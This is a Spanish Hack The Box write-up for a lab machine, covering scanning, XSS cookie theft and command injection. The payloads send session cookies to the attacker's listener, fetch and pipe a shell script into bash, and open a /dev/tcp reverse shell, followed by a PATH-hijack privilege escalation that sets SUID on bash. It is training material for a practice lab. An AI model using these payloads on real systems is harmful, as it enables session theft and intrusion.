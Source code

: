 #writeup #HTB

# Reconocimiento

Comenzamos lanzando [[nmap]]:

```nmap
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```
```nmap
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Tue, 09 Jul 2024 12:30:27 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
```

Vemos que aunque no se reconozca como tal, el servicio que corre en el puerto *5000*, parece ser [[80-http|http]]. Si accedemos, veremos una página con una cuenta atrás. Además, también tendremos acceso a un formulario de soporte.

```whatweb
whatweb http://10.10.11.8:5000/
http://10.10.11.8:5000/ [200 OK] Cookies[is_admin], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/2.2.2 Python/3.11.2], IP[10.10.11.8], Python[3.11.2], Script, Title[Under Construction], Werkzeug[2.2.2]
```

Buscando recursos con [[gobuster]], encontramos una ruta hacia un *dashboard*:

```gobuster
gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.11.8:5000/ -t 20
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.8:5000/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/support              (Status: 200) [Size: 2363]
/dashboard            (Status: 500) [Size: 265]
Progress: 3916 / 220548 (1.78%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 3940 / 220548 (1.79%)
===============================================================
Finished
===============================================================
```


# Explotación

Sin embargo, dicho dashboard requiere autenticación. Vemos además que tenemos asignada una cookie **`is_admin`**. Por lo que con [[burpsuite]] tratamos de efectuar un ataque de [[CSRF]], desde el formulario de soporte:

```http
POST /support HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: <script>var i=new Image(); i.src="http://10.10.14.50:8001/?cookie="+btoa(document.cookie);</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 294

Origin: http://10.10.11.8:5000
Referer: http://10.10.11.8:5000/support
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1


fname=you&lname=have&email=been%40pwned&phone=3432445534543&message=<script>var i=new Image(); i.src="http://10.10.14.50:8001/?cookie="+btoa(document.cookie);</script>
```

Tras inyectar código *javascript*, en el **User-Agent**, si nos ponemos en escucha con un servidor *http* con [[python]], podemos obtener una cookie de sesión y decodificarla:

```bash
python3 -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
10.10.14.50 - - [09/Jul/2024 16:10:00] "GET /?cookie= HTTP/1.1" 200 -
10.10.11.8 - - [09/Jul/2024 16:10:24] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
10.10.11.8 - - [09/Jul/2024 16:10:26] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```
```bash
echo 'aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=' | base64 -d | cat -p
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

Guardando la cookie en el navegador, somos capaces de ver el *dashboard*:

![[Writeups/THM/AdventOfCyber/SQ1/dashboard.png]]

En este dashboard se nos permite ejecutar una especie de examen de diagnóstico. Podemos volver a interceptar la solicitud con [[burpsuite]] y tratar de inyectar código:

![[burpsuite_injection.png]]

Vemos que hemos sido capaces de inyectar código, vamos a tratar de establecer una [[Reverse shell|reverse shell]]. Para ello creamos un *shell.sh*:

```bash
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.50/443 0>&1'
```

Nos montamos un servidor *http* con [[python]] y nos ponemos en escucha con [[netcat]]:

![[server_listener.png]]

Y mandamos la siguiente petición:

```http
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://10.10.11.8:5000
Connection: keep-alive
Referer: http://10.10.11.8:5000/dashboard
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

date=2023-09-15; curl http://10.10.14.50:8001/shell.sh|bash
```

![[were_in.png]]

Ya estamos dentro y antes que nada aplicamos un [[Tratamiento de la tty]].

# Escalada de privilegios

Para escalar privilegios comenzamos listando nuestros permisos de `sudo` con `sudo -l`:

```bash
sudo -l
```
```sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

Como se llama al ejecutable `initdb.sh` de forma relativa, podemos explotar un [[PATH Hijacking]], creamos un archivo con el mismo nombre en el directorio actual:

```bash
chmod +s /bin/bash
```

Y ejecutamos:

```bash
export PATH=$(pwd):$PATH
```

Ya solo falta ejecutar el binario y podremos lanzar una shell privilegiada con `bash -p`.